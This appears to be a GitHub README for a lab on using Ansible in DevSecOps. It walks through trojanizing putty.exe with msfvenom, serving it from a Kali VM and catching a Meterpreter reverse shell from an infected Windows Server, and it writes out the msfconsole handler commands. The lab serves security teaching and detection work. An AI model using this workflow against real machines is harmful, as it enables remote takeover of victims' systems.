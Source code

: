 # DevSecOps With Ansible

An example on how Ansible can be used in a DevSecOps Workflow

## What is DevSecOps?

https://www.redhat.com/en/topics/devops/what-is-devsecops

## What is Ansible?

https://www.redhat.com/en/technologies/management/ansible/get-started

## Running in your environment

Prerequisites: You will need Ansible, Vagrant and VirtualBox installed on your workstation.

So after that just go to the "hack" directory and run the scrip: create_attacker_env.sh. This will create a virtual machine with Kali Linux and thus automate the malware infection of an executable "putty.exe" using "msfvenom". It will also make this malware available on the apache web server to be consumed via HTTP. 

After that in the "hack" directory run the ssh_attakcer.sh. This will ssh to the Kali Linux virtual machine. Finally open msfconsole and run the steps to "wait" for the malware to run on the Windows machine.

msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set lhost 10.0.0.190
set lport 1234
show options 
exploit 

Now run the create_target_env.sh script, this will create a Windows Server and configure Ansible. After that, the malware will be downloaded and will infect the Windows server.

At this point you will have access to the reverse shell on the Kali virtual machine and will be able to execute any command on the Windows Server.

The purpose of this lab is to show you how you can use Ansible to automate the creation, execution and detection of Malware and any kind of threats, whether in Windows or Linux environments.

Ps: Soon I will add the Ansible roles for threat detection.

![DevSecOps](images/00.png)

![DevSecOps](images/01.png)

![DevSecOps](images/02.png)

![DevSecOps](images/03.png)


